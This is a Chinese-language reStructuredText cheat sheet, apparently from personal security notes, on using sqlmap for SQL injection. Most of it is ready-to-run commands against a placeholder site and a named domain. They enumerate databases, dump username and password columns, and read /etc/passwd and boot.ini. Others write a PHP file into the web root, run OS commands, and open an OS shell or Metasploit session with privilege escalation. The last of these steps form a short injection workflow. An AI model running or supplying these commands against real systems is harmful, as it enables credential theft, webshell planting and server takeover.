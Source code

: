 
.. _security.nmap.base:

======================================================================================================================================================
sqlmap基本使用
======================================================================================================================================================

:Date: 2019-3

.. contents::


sqlmap简单实用
======================================================================================================================================================





- 在网页后面添加 ``'`` 测试
- 在网页后面添加 ``and 1=2`` 测试

查询链接的服务器使用的什么数据库：
    - sqlmap -u http://xxxxxx.com/xxx.asp?ID=xxxx --dbs --current-user
    - 会测试出服务器系统/web服务器类型/数据库类型

查询数据库中的表名称：
    - sqlmap -u http://xxxxxx.com/xxx.asp?ID=xxxx --tables
    - 这一步可能会根据sqlmap的字典来猜测数据库中表的名称

查询数据库中指定表(这里表明uname)的列名称：
    - sqlmap -u http://xxxxxx.com/xxx.asp?ID=xxxx -T uname --columns

查询数据库中指定表(这里表明uname)的指定列（username,password,login_name）的数据：
    - sqlmap -u http://xxxxxx.com/xxx.asp?ID=xxxx -T uname -C username,password,login_name --dump




常用语句
1.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -f -b –current-user –current-db –users –passwords –dbs -v 0
2.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –passwords -U root –union-use -v 2
3.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –dump -T users -C username -D userdb –start 2 –stop 3 -v 2
4.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –dump -C “user,pass” -v 1 –exclude-sysdbs
5.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –sql-shell -v 2
6.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –file-read “c:\boot.ini” -v 2
7.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –file-write /test/test.txt –file-dest /var/www/html/1.txt -v 2
8.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –os-cmd “id” -v 1
9.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –os-shell –union-use -v 2
10.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 –priv-esc -v 1
11.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 -v 1
12.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –os-bof –msf-path=/opt/framework/msf3 -v 1
13.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 –reg-add –reg-key=”HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap” –reg-value=Test –reg-type=REG_SZ –reg-data=1
14.
./sqlmap.py -u http://www.91ri.org/ test.php?p=2 -b –eta
15.
./sqlmap.py -u “http://www.91ri.org/ sqlmap/mysql/get_str_brackets.php?id=1″ -p id –prefix “‘)” –suffix “AND (‘abc’='abc”
16.
./sqlmap.py -u “http://www.91ri.org/ sqlmap/mysql/basic/get_int.php?id=1″ –auth-type Basic –auth-cred “testuser:testpass”
17.
./sqlmap.py -l burp.log –scope=”(www)?\.target\.(com|net|org)”
18.
./sqlmap.py -u “http://www.91ri.org/ sqlmap/mysql/get_int.php?id=1″ –tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
19.
./sqlmap.py -u “http://www.91ri.org/ sqlmap/mssql/get_int.php?id=1″ –sql-query “SELECT ‘foo’” -v 1
20.
./sqlmap.py -u “http://www.91ri.org/ mysql/get_int_4.php?id=1″ –common-tables -D testdb –banner

简单的注入流程

1.读取数据库版本，当前用户，当前数据库

sqlmap -u http://www.91ri.org/ test.php?p=2 -f -b –current-user –current-db -v 1

2.判断当前数据库用户权限

sqlmap -u http://www.91ri.org/ test.php?p=2 –privileges -U 用户名 -v 1
sqlmap -u http://www.91ri.org/ test.php?p=2 –is-dba -U 用户名 -v 1

3.读取所有数据库用户或指定数据库用户的密码

sqlmap -u http://www.91ri.org/ test.php?p=2 –users –passwords -v 2
sqlmap -u http://www.91ri.org/ test.php?p=2 –passwords -U root -v 2

4.获取所有数据库

sqlmap -u http://www.91ri.org/ test.php?p=2 –dbs -v 2

5.获取指定数据库中的所有表

sqlmap -u http://www.91ri.org/ test.php?p=2 –tables -D mysql -v 2

6.获取指定数据库名中指定表的字段

sqlmap -u http://www.91ri.org/ test.php?p=2 –columns -D mysql -T users -v 2

7.获取指定数据库名中指定表中指定字段的数据

sqlmap -u http://www.91ri.org/ test.php?p=2 –dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2

8.file-read读取web文件

sqlmap -u http://www.91ri.org/ test.php?p=2 –file-read “/etc/passwd” -v 2

9.file-write写入文件到web

sqlmap -u http://www.91ri.org/ test.php?p=2 –file-write /localhost/mm.php –file-dest /var/www/html/xx.php -v 2


















